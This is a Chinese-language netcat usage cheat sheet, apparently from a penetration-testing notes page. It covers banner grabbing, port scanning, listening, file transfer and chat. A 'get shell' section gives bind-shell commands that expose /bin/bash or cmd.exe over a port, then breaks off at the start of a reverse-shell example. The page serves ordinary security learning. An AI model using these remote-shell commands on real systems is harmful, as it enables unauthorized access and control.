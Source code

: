 **使用**
Banner抓取
```bash
# banner可标识服务的版本等信息

# 题外话:追踪路由
mtr 114.114.114.114 


## nc作为客户端：
# 参数 -v  显示详细信息 
# 参数  -n  如果是域名,不进行域名解析(建议直接跟ip地址)
nc -nv 1.1.1.1 110   # 连接pop3服务器，可以看到banner信息（可以进行user登录[base64编码],输入指令）
nc -nv 1.1.1.1 25    # smtp服务器
nc -nv 1.1.1.1 80    # 探测80端口(都可进行交互的命令)

```
连接到远程主机
```bash
nc -nvv 1.1.1.1 110 
```
端口扫描
```bash
#并非擅长端口扫描, 还慢
#参数 -z 扫描参数，只判断是否开放（默认tcp）
nc -nvz 1.1.1.1  20-8080
#参数 -u  扫描udp服务的端口 （不太准确）
nc -nvzu 1.1.1.1 1-1024
```

端口监听
```bash
nc -l -p 999
# 习惯
nc -lvvp 9999
```

文件传输
```bash
# 一旦连接建立，数据流就会传入，接收文件
nc -lp 333 >1.txt
# 发送文件内容
nc -nv 192.168.0.11 < test.txt -q 1    #参数 -q: 输出完成之后过1秒就断开
```

简易聊天
```bash
nc -l -p 8888

nc -vn 192.168.0.11 8888
```

获取shell
```bash
# 参考：https://www.uedbox.com/post/54632
# https://www.secpulse.com/archives/76223.html

##### nc正向shell（正向shell -> 内网服务器之间）
1.目标主机监听：
nc -lvvp 4444 -e /bin/bash # linux
nc -lvvp 4444 -e c:\\WINDOWS\system32\cmd.exe    # win
2.本机连接目标
nc 192.168.1.11 4444


##### nc反向shell
1.本机
nc -lvvp 3333       
```
